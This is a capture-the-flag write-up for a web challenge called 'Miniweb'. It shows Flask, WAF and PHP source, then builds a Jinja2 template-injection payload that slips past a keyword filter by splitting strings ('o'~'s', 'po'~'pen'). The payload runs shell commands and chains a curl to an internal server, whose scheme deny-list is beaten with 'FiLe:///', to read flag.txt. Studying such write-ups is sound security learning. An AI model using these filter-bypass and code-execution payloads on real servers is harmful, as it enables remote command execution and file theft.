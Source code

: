 ```yaml
---
description: SSTI + SSRF challenge
---
```


# Miniweb

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

given a link with the source code

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

nothing interesting in the actual web. Then I proceed to investigate the source code

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

there are two folders with these files inside. These are the important files

front-server/app.py:

```python
from flask import Flask, request, render_template
from jinja2 import Template
import waf

app = Flask(__name__)

@app.route("/")
def index():

    name = request.args.get("name", "")
    return render_template("index.html", name=name)

@app.route('/sub')
def sub():
    if request.args.get("name", "") :
        try :
            name = request.args.get("name", "").strip()
            print(waf.sanitize_input(name))
            return Template(waf.sanitize_input(f"{name} has subscribed successfully")).render()
        except :
            return "error"

if __name__ == "__main__":
    app.run(debug=False,port=12345)
```

front-server/waf.py:

```python
import re


def sanitize_input(input_string):

    input_string = re.sub(r"<script.*?>.*?</script>", "", input_string, flags=re.IGNORECASE)

    sql_patterns = [
        r"(--|#|;|\b(select|drop|insert|delete|update|union|or)\b)",
        r"(\b(0x[a-fA-F0-9]{2,8})\b)",
    ]

    for pattern in sql_patterns:
        input_string = re.sub(pattern, "BLOCKED", input_string)

    dangerous_chars = r"[+<>$%&\";]"
    for dc in dangerous_chars:
        input_string = input_string.replace(dc, "BLOCKED")

    dangerous_patterns = [
        r"(\b[a-zA-Z]'\s*'[a-zA-Z]\b)"
    ]

    for pattern in dangerous_patterns:
        input_string = re.sub(pattern, "BLOCKED", input_string)

    command_injections = ['subprocess', 'os', 'command', 'system', '\\','pty','eval','exec','sys', 'lower','upper', 'from', 'Popen','popen','read','run','check_output','execv','call','execvp','execle']
    for cmd in command_injections:
        input_string = input_string.replace(cmd, "BLOCKED")

    if "BLOCKED" in input_string :
        return "Blocked By WAF"
    else :
        return input_string
```

internal-server/src/index.php:

```php
<?php
if (!isset($_GET['url'])) {
    die("Missing 'url' parameter.");
}

$url = $_GET['url'];

$parsed = parse_url($url);
if (in_array($parsed['scheme'], [
    'ftp',
    'ftps',
    'file',
    'php',
    'zlib',
    'data',
    'glob',
    'phar',
    'ssh2',
    'rar',
    'ogg',
    'expect',
    'zip'
])) {
    die("Invalid URL scheme.");
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);

$response = curl_exec($ch);

if (curl_errno($ch)) {
    echo "cURL error: " . curl_error($ch);
} else {
    echo htmlspecialchars($response);
}

curl_close($ch);
?>
```

looking at these source code, I see there's a SSTI vulnerability in app.py at this part

```python
f"{name} has subscribed successfully"
```

which then will be sanitized by waf.py.

so to confirm this I put&#x20;

```python
/sub?name={{7*7}}
```

to the endpoint

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

and it worked. So I crafted a payload that bypasses all the waf

```python
/sub?name={{joiner.__init__.__globals__.__builtins__.__import__('o'~'s')|attr('po'~'pen')('ls')|attr('re'~'ad')()}}
```

and it worked!

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

then I just need to modify the payload to read flag.txt file from internal-server

so the final payload:

```python
/sub?name={{joiner.__init__.__globals__.__builtins__.__import__('o'~'s')|attr('po'~'pen')('curl php_internal:9000?url=FiLe:///flag.txt')|attr('re'~'ad')()}}
```

and got the flag

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

#### Flag: hacktoday{karena\_roti\_lebih\_enak\_dari\_kunci\_gang}
